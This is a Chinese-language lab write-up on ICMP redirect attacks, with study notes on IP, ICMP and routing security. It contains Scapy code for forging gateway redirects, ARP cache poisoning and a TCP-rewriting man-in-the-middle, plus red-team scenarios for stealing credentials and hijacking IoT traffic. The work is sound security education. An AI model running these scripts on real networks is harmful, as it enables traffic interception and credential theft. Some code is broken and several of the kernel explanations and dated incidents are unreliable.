# ICMP重定向攻击实验
## 实验主题
• IP 和 ICMP 协议
• ICMP 重定向攻击
• 路由
## 概述：理解ICMP重定向攻击的原理，并利用该攻击实施中间人(MITM)攻击
**ICMP重定向攻击**
   1. ICMP重定向的设计初衷：为了优化主机的路由表而设计，当网关接收到数据包后发现，发送该包的源主机可以直接通过同一子网的另一台路由器到达目标，网关就会向源主机发送ICMP重定向报文建议它：“下次别走我了，直接发给那个更近的路由器。
   
   2. 攻击核心原理：攻击者可以通过伪装成优化路由器，诱骗受害主机修改路由表，将原本发往网关的流量重定向到攻击者机器从而实现中间人劫持
   3. 重定向报文
      1. 报文结构
          
      2. 报文关键字段：
         1. Type=5（Redirect）
         2. Code=1（Host Redirect仅针对特定目标IP）
         3. Gateway IP Address：填入攻击者机器IP（告知受害者机器下一跳）
         4. Payload：必须包含受害者原始发出的IP头部和传输层前8字节（用于受害内核校验这是属于哪个流）
         5. Source IP：必须伪造为受害者当前的默认网关IP（内核校验信任链起点）
   4. 攻击生效的条件（内核校验链）
      现代操作系统（Windows、Linux）不会盲目相信重定向报文，不行满足以下条件 
      1. accept_redirects：内核必须允许接收重定向报文（Linux、Windows默认开启）
      2. 源IP合法性：IP层的原地址必须是受害者机器路由表中的网关IP地址
      3. secure_redirects：默认开启。建议的新网关（攻击者机器）IP必须存在于受害者ARP缓存表中
      4. 流匹配（Payload）：报文携带的原始头部必须与受害者正在进行活跃的连接匹配
      5. 直连网段限制：建议的新网关（攻击者机器）必须与受害者处于同一子网
   5. 绕过手法
      1. 绕过secure_redirects（ARP铺垫法）
         手法：在发送ICMP Redirect之前先给受害者发送一个ARP Response
         操作：攻击者告诉受害者“我是IP xx（攻击者IP），我的MAC地址是xx”
         效果：受害者更新ARP缓存，攻击者的IP和MAC地址映射被记录在ARP缓存表中，此时在发送ICMP Redirect就可以通过内核校验
      2. 绕过流匹配（抓包嗅探）
         手法：使用tcpdump或Scapy的sniff功能，实时捕获受害者机器发出的流量
         操作：提取捕获的数据包中的IP头部和TCP/UDP头部信息，作为Payload填充到ICMP Redirect包中
      3. 维持劫持（循环刷新）
         机制：ICMP重定向注入的路由条目通常有老化时间（Linux约为10-600s，取决于实现和配置）
         操作：编写脚本循环发送重定向报文，确保路由条目不被清除 
   6. 相比于ARP投毒的优势（隐蔽性优化）
      ARP欺骗投毒：需要持续发生大量ARP广播包，容易被交换机（DAI）或IDS检测到网络风暴或MAC地址漂移
      ICMP重定向：单播包，且只需要在路由条目快过期时发送一次，流量极小，适合在部署了严格监控的内网中长期潜伏 
   7. 实战应用场景
      1. 内网渗透与横向移动 (MITM)
         场景：红队已控制一台跳板机，需要窃取同一网段内服务器（如 ERP、数据库）的明文密码或 Cookie。
         操作： 
         开启跳板机的 IP Forwarding (sysctl -w net.ipv4.ip_forward=1)。
         针对目标服务器 IP 实施 ARP 铺垫 + ICMP 重定向。
         流量流经跳板机，配合 Wireshark 或 Ettercap 提取敏感信息。
      2. 工控/物联网设备 (IoT) 攻击
         场景：许多老旧的摄像头、PLC 或工控机运行着未加固的 Linux 内核，且管理员无法修改 sysctl 参数。
         操作：这些设备往往默认开启所有重定向接受选项。攻击者接入物理网络后，利用脚本即可轻易劫持设备的控制指令或视频流。
      3. 绕过网络隔离策略
         场景：某些网络实施了端口安全策略，限制了 ARP 包的发送速率，导致 ARP 欺骗难以进行。
         操作：ICMP 重定向报文数量少，不易触发速率限制报警，可作为 ARP 欺骗的替代方案。
      4.  流量牵引至蜜罐
         场景（蓝队/防御）：网络管理员发现某主机疑似中毒，正在对外扫描。
         操作：通过 ICMP 重定向将该主机的对外流量牵引到蜜罐或流量分析设备，进行行为取证，而不是直接断网打草惊蛇
## 实验环境搭建
1. 容器搭建和命令：与以前的实验相同，不在赘述
2. 攻击者容器：与以前的实验相同，不在赘述
   1. 共享文件夹
   2. 特权模式
3. 本实验的网络拓扑图
    
4. 本实验容器已设置为接受ICMP重定向
## 实验内容
1. 任务一：发起ICMP重定向攻击
   1. 在受害者容器中执行`ip route`命令，查看当前路由表发给192.168.60.0/24网段的流量是通过10.9.0.11转发的
   2. 实验要求：通过ICMP重定向使受害者机器发往192.168.60.0/24网段的流量通过10.9.0.111转发
   3. 代码实现
      ```python
      from scapy.all import *
      ip=IP(src="10.9.0.11",dst="10.9.0.5")
      icmp=ICMP(type=5,code=1)
      ip2=IP(src="10.9.0.5",dst="192.168.60.5")
      icmp.gw="10.9.0.111"
      icmp_pkt=ip/icmp/ip2/ICMP()
      send(icmp_pkt,iface="eth0",verbose=1)
      ```
   4. 代码详解：
      1. 构造的ICMP重定向包包含四层：ip/icmp/ip2/icmp2
         1. 最外层IP层是伪装成网关给受害者发送的ICMP重定向包自己的IP头部
            参数：
               src="受害者路由表中网关IP"【因为是伪装成网关给受害者发送重定向包（以通过Source IP合法性检验）】
               dst="受害者IP"【因为是发给受害者的包】
         2. 次外层ICMP是伪装成网关给受害者发送的ICMP重定向包自己的ICMP头
            参数：
               type=5【标识ICMP包的类型，5是重定向包】
               code=1【详细划分，1是主机重定向】
         3. 次内层IP层包含的是触发ICMP重定向的包的IP头信息【用于通过内核检查（内核要求ICMP重定向必须由应该真实的数据包触发）】
            参数：
               src="受害者的IP地址" 
               dst="受害者的通信目标主机的IP地址" 
         4. 最内层ICMP()层，ICMP重定向包的payload必须包含原始触发包的IP头+前8字节（这8字节可以是任意内容，ICMP()填充是scapy的常用方法） 
      2. icmp.gw字段设置新网关的IP地址为攻击者机器的IP地址
   5. 验证&修正
      1. 在攻击者容器中运行该程序成功发送icmp重定向包。wireshark也捕获了该流量在受害者容器中开启tcpdump监听，发现受害者机器也成功收到了该icmp重定向包
      2. 但是在受害者容器中查看路由缓存发现并没有新的缓存条目，说明可能我们构造的icmp重定向包没有通过某项内核检验导致内核丢包
      3. 可能由于Linux默认开启secure_redirects拦截，要求指定的新网关必须存在于受害者的ARP缓存表中，否则内核会认为这是应该不可信的新路由，从而拒绝更新
      4. 修改代码（添加ARP铺垫）
         ```python
         from scapy.all import *
         #ARP铺垫，先给受害者发送伪造的ARP请求，使受害者的ARP缓存中出现我们想要指定的新网关的IP-MAC地址映射条目
         arp_pkt=Ether(src="02:42:0a:09:00:6f ")/ARP(op=1,psrc="10.9.0.111",hwsrc="02:42:0a:09:00:6f",pdst="10.9.0.5",hwdst="ff:ff:ff:ff:ff:ff")
         sendp(arp_pkt,iface="eth0",verbose=0)
         #发送icmp重定向包
         ip=IP(src="10.9.0.11",dst="10.9.0.5")
         icmp=ICMP(type=5,code=1)
         icmp.gw="10.9.0.111"
         ip2=IP(src="10.9.0.5",dst="192.168.60.5")
         icmp_pkt=ip/icmp/ip2/ICMP()
         send(icmp_pkt,iface="eth0",verbose=0)
         ```
      5. 重新验证
         1. 运行代码wireshark成功捕获了伪造的ARP请求和icmp重定向包
         2. 查看受害者容器的ARP缓存表我们想要指定的新网关的IP-MAC映射条目已经成功被添加
         3. 查看受害者容器的路由缓存没有出现新条目，路由表也没有被修改
      6. 可能是内核校验payload失败，ip2 的Protocol字段必须显式设置为1（ICMP）
      7. 进一步修改代码（只展示改动部分）：
         ```python
         ip2=IP(src="10.9.0.5",dst="192.168.60.5"，proto=1)
         ```
      8. 验证：查看受害者容器的路由缓存还是没有出现新条目
      9. 可能是payload的长度不足，ICMP()头部本身通常是8字节，但可能由于Scapy的具体实现导致长度不足
      10. 修正：在ICMP()后面添加一下内容确保长度足够
            ```python
            icmp_pkt=ip/icmp/ip2/ICMP(type=8,code=0)
            ```
         验证：还是不行
      11. 在受害者容器中开启tcpdump抓包发现容器内核并没有丢包
      12. 可能是内核采取静默丢包
      13. 可能是因为内核的secure_redirects检查要求严格，ARP缓存状态仅仅是Complete（C）还不够，C只代表已完成ARP解析但不保证可达，因此可能secure_redirects要求ARP中的条目状态要更严格可能是这样
      14. 验证：在受害者容器中查看ARP缓存的详细信息`ip neigh show`STATE状态可能不能通过内核的检查因此需要真正通信将状态激活为REACHABLE状态
      15. 修改代码（使用ARP响应投毒代替ARP请求投毒在发送ICMP重定向包之前先发送一个Ping包激活ARP缓存中的条目状态）
        ```python
        from scapy.all import *
        #ARP铺垫，先给受害者发送伪造的ARP请求，使受害者的ARP缓存中出现我们想要指定的新网关的IP-MAC地址映射条目
        arp_Request=Ether(src="02:42:0a:09:00:6f")/ARP(op=1,psrc="10.9.0.111",hwsrc="02:42:0a:09:00:6f",pdst="10.9.0.5",hwdst="ff:ff:ff:ff:ff:ff")
        sendp(arp_pkt,iface="eth0",verbose=0)
        arp_Reply=Ether(src="02:42:0a:09:00:6f")/ARP(op=2,psrc="10.9.0.111",hwsrc="02:42:0a:09:00:6f",pdst="10.9.0.5",hwdst="02:42:0a:09:00:05")
        sendp(arp_pkt,iface="eth0",verbose=0)
        #发送Ping包进行真正通信
        icmp_echo=IP(src="10.9.0.111",dst="10.9.0.5")/ICMP(type=0,code=0)#模拟Echo Reply
        send(icmp_echo,iface="eth0",verbose=0)
        #发送icmp重定向包
        ip=IP(src="10.9.0.11",dst="10.9.0.5")
        icmp=ICMP(type=5,code=1)
        icmp.gw="10.9.0.111"
        ip2=IP(src="10.9.0.5",dst="192.168.60.5"，proto=1)
        icmp_pkt=ip/icmp/ip2/ICMP()
        send(icmp_pkt,iface="eth0",verbose=0)
        ``` 
        验证：还是不行
   6. 根据官方的实验手册的注意事项【如果我们伪造重定向包，但受害者的机器在攻击期间没有发送过 ICMP 数据包，则该攻击将不会成功。】得知问题出在了在攻击期间受害者机器需要真的发送过ICMP数据包才行
      1. 在受害者机器中Ping192.168.60.5，然后在攻击者机器中运行程序
      2. 在受害者机器中查看路由缓存发现这次成功将流量重定向到攻击者机器上了
      3. 查看traceroute
   7. 问题1：能否使用 ICMP 重定向攻击将流量重定向到远程机器？即，给 icmp.gw 赋予的 IP 地址是一个不在本地局域网上的计算机
      1. 将icmp.gw修改为本实验另一局域网中的主机192.168.60.6
      2. 运行程序，查看受害者路由缓存没有成功重定向
      3. 原因：ip包要发送到下一跳必须要知道下一跳的MAC地址，受害者要把ip包转发给新网关会先检查新网关的ip是否在同一子网，如果在同一子网中就通过ARP请求获取MAC地址然后将ip包发送给新网关；如果检查新网关ip发现不在同一子网，就无法得知新网关的MAC地址，无法直达，还需要再经过其他路由器 
   8. 问题 2：能否使用 ICMP 重定向攻击将流量重定向到同一网络中的不存在的机器上？即，给icmp.gw 赋予的 IP 地址是一个在本地局域网上不存在的计算机
      1. 将icmp.gw修改为10.9.0.88，将构造的免费ARP请求包中的psrc和pdst改为10.9.0.88
      2. 运行程序，查看受害者的路由缓存重定向成功但实际通信不成功
      3. 原因：内核检查icmp重定向包时不会检查新网关是否真的存在，只要新网关的IP在ARP缓存中（即使是伪造的），内核就会接受重定向。而实际通信时由于新网关不存在所以受害者发送给新网关的数据包全部报错（目标不可达）【DoS（拒绝服务攻击）】
   9.  问题 3：查看 docker-compose.yml 文件，你会找到恶意路由器容器的以下条目。这些条目的目的是什么？将它们的值改为 1，并再次启动攻击。请描述并解释你观察到的现象
       1. 这些条目的作用：控制路由器是否主动发送icmp重定向消息
       2. 现象：
          1. 条目配置为0（不主动发送）的目的：
             1. 目的1：防止恶意路由器干扰网络
                在实验环境中，恶意路由器（10.9.0.111）被配置为不发送任何ICMP重定向，防止它干扰正常的网络路由。
             2. 目的2：隔离攻击影响
                攻击者控制的恶意路由器不应该主动"帮助"其他主机优化路由
             3. 避免意外影响其他实验或网络中的其他主机
          2. 修改条目
          3. 重启容器环境
          4. 重新发起攻击，查看受害者容器路由缓存条目 
          5. 查看traceroute出现丢包现象。wireshark抓包查看发现有TTL超时
          6. 查看wireshark是否抓到了来自恶意路由发送的重定向包发现了，该重定向包又把受害者原来的网关10.9.0.11设置为了新网关
          7. 重新查看受害者的路由缓存发现已经被重定向为10.9.0.11
       3. 出现TTL和丢包的原因：当恶意路由开启自动发送重定向消息后可能导致路由循环从而导致TTL超时，导致丢包
2. 任务二：发起MITM攻击
   1. 实验配置
      1. 禁用恶意路由的IP转发功能：防止自动转发数据包导致干扰我们修改数据包并转发修改后的数据包`sysctl net.ipv4.ip_forward=0`
      2. 使用netcat建立受害者与目标机器192.168.60.5的连接
         1. 目标机器作为服务端监听端口等待用户连接`nc -lp 8888`
          
         2. 受害者连接目标机器的8888端口
            `nc 192.168.60.5 8888`
            
         3. 
            wireshark抓包看到连接已经成功建立
   2. 任务要求：netcat一旦建立连接，你可以在受害者机器上输入消息。每行消息都会被放入一个 TCP 数据包发送至目的地，目的地会简单地显示这些消息。你的任务是将每条消息中的你名字（拼音）出现的地方替换为一系列 A。序列的长度应与你名字相同，否则可能会扰乱 TCP 序号，从而导致整个 TCP 连接失败。
   3. 任务实践：
      1. 代码实现：
         ```python
         from scapy.all import *
         def handle(pkt):
            if pkt[IP].src=="10.9.0.5" and pkt[IP].dst=="192.168.60.5":
               newpkt=IP(bytes(pkt[IP]))
               del(newpkt[IP].chksum)
               del(newpkt[TCP].chksum)
               if pkt[TCP].payload:
                  del(newpkt[TCP].payload)
                  data=pkt[TCP].payload.load
                  if b'ethicalpaws' in data:
                     data=data.replace(b'ethicalpaws',b'AAAAAAAAAAA')
                  fakepkt=newpkt/data
                  send(fakepkt,iface="eth0",verbose=0)
               else:
                  send(newpkt,iface="eth0",verbose=0)
         pkt=sniff(filter="tcp and ether src 02:42:0a:09:00:05",iface="eth0",prn=handle)
         ``` 
      2. 进行攻击：
         1. 在受害者容器中ping目标192.168.60.5
         2. 在攻击者容器中发送icmp重定向包
         3. 查看受害者容器的路由缓存重定向成功
         4. 在恶意路由中运行MITM程序
      3. 验证：
         1. 在受害者容器中给服务端发送信息
         2. 在服务端查看收到的信息名字部分已经成功被替换为相应长度的A
      4. 
         1. 问题4：我捕获的是受害者到服务端的流量：因为服务端接收到数据后将数据显示在屏幕上，我们需要将服务端屏幕上显示的名字替换，所有需要拦截修改受害者给服务端的数据包，修改后再转发给服务端
         2. 问题5：应该选择IP地址作为过滤器的一部分
            1. 现象：
               1. 选择A的IP地址作为过滤器的一部分的：
                  1. `pkt=sniff(filter="tcp and src host 10.9.0.5",iface="eth0",prn=handle)`
                  2. 虽然攻击成功但是短时间内出现了大量的重复包会带来更高的 CPU/内存开销
               2. 选择A的MAC地址作为过滤器的一部分的：
                  1. `pkt=sniff(filter="tcp and ether src 02:42:0a:09:00:05",iface="eth0",prn=handle)`
                  2. 可以攻击成功且流量是平稳的一对一转发不会出现转发风暴
            2. 原因：MAC地址会变化但IP地址不会改变，恶意路由发出的包保留了原始ip会导致包被再次捕获导致转发风暴（scapy 反复回调处理）。因此应该使用MAC地址过滤而不是IP地址过滤
## 实验总结
1. 踩坑
   1. 没有看仔细官方实验手册，漏掉任务一的关键条件导致一直无法成功重定向流量
   2. 任务二中MITM恶意程序应该运行在恶意路由容器中【我将恶意程序运行在攻击者容器10.9.0.105上导致攻击不成功】：
      因为10.9.0.105负责的是发送icmp重定向包，而10.9.0.111防止拦截修改转发数据包。受害者将数据包发送给10.9.0.111但该容器中没有运行MITM程序也没有开启IP转发功能，所有导致包到达10.9.0.111就丢了，从而导致TCP重传风暴
       
2. 问题与思考
   1. 为什么任务一中，伪造的受害者发送给192.168.60.5的ICMP包不行，只有在受害者容器中真的Ping一下攻击才成功
      原因：当受害者内核真正发送一个包时，它会维护一个发送队列或状态表 
         真实ping时内核会：
            构造ICMP Echo Request包
            分配ICMP ID（如 0x1234）
            分配序列号（如 1）
            记录到内部状态表
            发送到网络
         伪造包的问题：这个包虽然看起来像受害者发出的，但是
            包没有经过受害者的IP栈
            受害者的内核没有记录这个包的发送
            内核的"最近发送包"缓存中没有这个包的信息
   2. 当我们攻击者机器发送icmp重定向包时受害者需要需要真的在Ping目标机器，但是为什么每次的第一次攻击都没能重定向成功都得在第二次才成功
      可能的原因：
         icmp重定向的“防抖动”机制：Linux内核故意设计为不立即接受第一个重定向，防止网络抖动导致的路由错误。 ARP状态的演化：
      验证：
         第一次攻击后ARP状态变为REACHABLE但未出现缓存条目
         第二次攻击后：成功出现预期缓存条目  
      总结：内核的ICMP重定向接受机制有"防抖动"设计——第一次重定向被视为"可疑建议"被忽略；只有在已有稳定连接状态的情况下（第二次），内核才信任并接受重定向 
3. 知识点
   1. IP协议（ipv4）深度解析
      1. 核心定位与设计哲学
         1. 无连接，不可靠，尽力而为：IP不保证顺序，不保证到达，不重传。这些可靠性检查都是交由上层协议（TCP、QUIC、应用层）进行
         2. 逐跳转发：每个路由器独立查路由表决定下一跳，不维护端到端的状态（路由器之间不协商不记忆数据包的完整路径）
         3. 缺乏内建安全：无加密，无认证，无完整性校验（源IP可以随意伪造，这是绝大多数网络攻击的根基）
      2. IPv4头部关键字段与安全映射
         1. Identification（标识符）：用于标识同一原始包的分片【若可预测，可以实施盲欺骗攻击（Blind IP Spoofing）或构造重叠分片绕过IDS】
         2. Flags&Fragment Offset：分片控制和数据偏移【Tiny Fragment，Overlapping Fragment，Teardrop均源于此，不同OS重组策略差异是绕过防火墙的核心技术】
         3. TTL（生存时间）：防止路由环路，每条减1【traceroute原理；可用于识别不同操作系统（Windows默认128，Linux默认64）；设置极小TTL可实施TTL衰减DoS】
         4. Protocol：标识上层协议（TCP=6，UDP=17；ICMP=1）【防火墙状态检测基础；伪造错误Protocol可触发目标发送ICMP Type3 Code2（协议不可达）用于探测】
         5. Source IP：源IP地址【IP欺骗的根源。结合TCP序列号预测可实施会话劫持；常用于SYN Flooding隐藏攻击源】
         6. Header Checksum：仅校验头部完整性【不校验数据部分，中间人修改payload不会触发IP层警告，依赖上层（TCP/UDP checksum）或应用层校验】
      3. 分片与重组机制
         当包超过链路层MTU时，IP层会分片。**重组发生在目标主机，而非中间路由器**，这导致：
         1. 防火墙/IDS看到的不是目标主机最终重组的包，从而绕过检测机制 
         2. 攻击者故意构造非常规偏移量（负偏移，重叠，首部极小）使安全设备与目标主机重组产生逻辑分歧，从而实现签名绕过
         3. 现代防御：状态防火墙强制在边界重组后再检测；或严格丢弃非常规分片（如 iptables -m frag --fragmore 配合策略）
   2. ICMP协议深度解析
      1. 定位与封装：ICMP不是独立传输协议而是IP协议的控制附属协议（IP头部Protocol=1）.不传输数据，仅用于传递网络控制和差错信息
      2. 报文结构：Type+Code决定报文语义
          
      3. 报文类型与安全利用
         1. Echo Request/Reply：连通性测试（Ping）【主机发现，拓扑探测，ICMP Flood/Smurf攻击，ICMP Tunnel隐蔽信道】
         2. Net/Host Unreachable：路由不匹配或目标宕机【配合伪造报文实施TCP连接重置】
         3. Port Unreachable：UDP端口未监听【UDP端口扫描的返回特征（nmap -sU 原理）】
         4. Fragmentation Needed(DF set)：路径MTU发现（PMTUD）【过滤该报文会导致PMTUD黑洞（TCP大包永远发不出去，连接挂起）】
         5. Host Redirect：网关优化主机路由【ICMP重定向攻击：伪造网关IP注入恶意路由，实施精准流量劫持】
         6. Time Exceeded：TTL耗尽或分片重组超时【traceroute核心原理；分片DoS触发条件】
         7. Timestamp Request/Reply：获取主机精准时间【系统时钟推断、低带宽隐蔽通信】
      4. ICMP的“自保”设计
         1. 不对ICMP报错（避免ICMP循环）
         2. 不对多播/广播报错
         3. 不对非首部分片报错（重组后才可能报错）
         4. 源IP不能是回环，多播，全零地址
         这些限制使得ICMP攻击构造必须精确，也留下了大量绕过空间 
   3. IP与ICMP的协同逻辑
      1. 差错反馈闭环：IP负责转发，当路由器发现TTL=0，路由不可达，分片冲突时丢弃原包，返回ICMP报文给源IP
      2. 路径控制：通过ICMP Redirect和PMTUD，网络动态优化主机的发送策略，不需要人工维护路由表
      3. 诊断依赖：Ping，traceroute，pathping都依赖于ICMP的Echo和Time Exceeded机制
   4. 路由
      1. 路由核心机制
         1. 路由表核心字段（路由器接收到包后查路由表决定下一跳）
            1. Destination/Prefix：目标网段（如10.9.0.0/24）【路由注入的核心目标，宣告更优或更精确的前缀】
            2. Next Hop：下一跳IP地址【篡改此项可实现流量重定向（中间人攻击）】
            3. Admin Distance（AD）：路由来源的可信度（直连=0，静态=1，OSPF=110，RIP=120）【AD越低越优先。攻击者可以利用高AD协议注入路由覆盖低AD路由】
            4. Metric：同协议下的路径优劣度量（跳数，带宽，延迟等）【协议中毒攻击通常伪造极低Metric路由来劫持流量】
            5. interface：出站物理/逻辑接口【错误配置可导致流量黑洞或环路】
         2. 转发决策逻辑
            1. 最长前缀匹配：若有多个匹配项，选掩码最长的【BGP劫持利用的核心规则】
            2. AD优先：若前缀相同，选择AD最低的
            3. Metric：若AD也相同，选择Metric最优的（如跳数最少，带宽最大）
      2. 路由协议全景：路由协议按照作用域和算法分为不同类别
         1. IGP（内部网关）：RIP,OSFP,IS-IS【用于AS（自治系统）内部，追求收敛速度和最优路径】
         2. EGP（外部网关）：BGP【用于AS之间，追求策略控制和稳定性】
         3. 距离矢量（Distance Vector）：RIP,EIGRP【只知道下一跳和距离，易环路，收敛慢】
         4. 链路状态（Link State）：OSPF,IS-IS【每台路由器掌握完整拓扑，收敛快，资源消耗大】
         5. 路径矢量（Path Vector）：BGP【记录完整AS路径，基于策略决策，防环路，规模极大】
      3. 三大核心协议深度解析
         1. RIP（Routing Information Protocol）——古老脆弱
            1. 传输层：UDP520
            2. 度量标准：跳数（Hop Count），最大15,16跳为不可达
            3. 更新机制：每30秒广播完整路由表
            4. 安全弱点：
               1. 无认证或弱认证：RIPv1 无认证，RIPv2 支持明文/MD5 但常被忽略
               2. 路由注入极易：接入网络后发送伪造Response，宣告Metric=1即可劫持
               3. 路由毒化：宣告某网段跳数为16，可实施DoS
         2. OSPF（Open Shortest Path First）——企业网的中坚力量
            1. 网络层：IP协议号89（直接封装在IP中，无TCP/UDP头）
            2. 算法：Dijkstra最短路径优先（SPF）
            3. 核心机制：
               1. Area划分：Area0为骨干，其他区域必须连接到Area0，防止环路
               2. LSA（链路状态通告）：路由器通过泛洪LSA同步拓扑。Type1（Router），Type2（Network），Type3（Summary）等
            4. 安全弱点
               1. LSA伪造：攻击者注入伪造的LSA，触发全网SPF重算，改变路由走向
               2. Hello泛洪：大量伪造Hello包消耗路由器CPU，导致邻居关系震荡
               3. 认证绕过：许多企业默认使用 authentication null。
         3. BGP（Border Gateway Protocol）——互联网基石
            1. 传输层：TCP 179
            2. 核心属性：
               1. AS_PATH：记录经过的自治系统序列，用于防止环路和路径选择
               2. Next_Hop, Local_Pref, MED, Communities：用于精细策略控制。
            3. 决策逻辑：1.最高Local_Pref->2.最短AS_PATH->3.最低Origin Type->4.最低MED->5.eBGP由于iBGP
            4. 安全弱点
               1. 信任模型脆弱：默认信任邻居宣告的任何前缀
               2. 前缀劫持：攻击者宣告比合法路由更精确的前缀，利用最长前缀匹配吸走流量
               3. 路由泄露：错误配置导致私有路由或未授权路由传播到全球
      4. 路由攻击全景与实战手法
         1. 路由注入
            1. 场景：内网渗透，红队评估
            2. 手法：通过伪造 RIP/OSPF/BGP 更新报文，向网络中注入虚假路由
            3. 效果：
               流量劫持：将流量导向攻击者控制的跳板机，实施 MITM。
               流量黑洞：宣告不可达路由，阻断关键业务
               路由环路：构造矛盾路由导致 TTL 耗尽，消耗网络资源。
         2. BGP劫持
            1. 经典案例：2008 年巴基斯坦电信试图屏蔽 YouTube，错误宣告了 YouTube 的 IP 前缀，导致全球流量被劫持至巴基斯坦；2020 年亚马逊 Route53 DNS 劫持事件也与 BGP 路径异常有关。
            2. 手法：在 AS 边界路由器上配置宣告不属于自己但更精确的 IP 前缀。
            3. 后果：敏感数据泄露、DNS 污染、大规模服务中断。
         3. 路由表中毒与策略规避：攻击者通过注入特定 Community 或修改 Local_Pref/MED，改变运营商的选路策略，使流量经过特定国家或节点（常用于规避审查或实施流量分析）。
      5. 总结：路由在安全攻防中的定位
         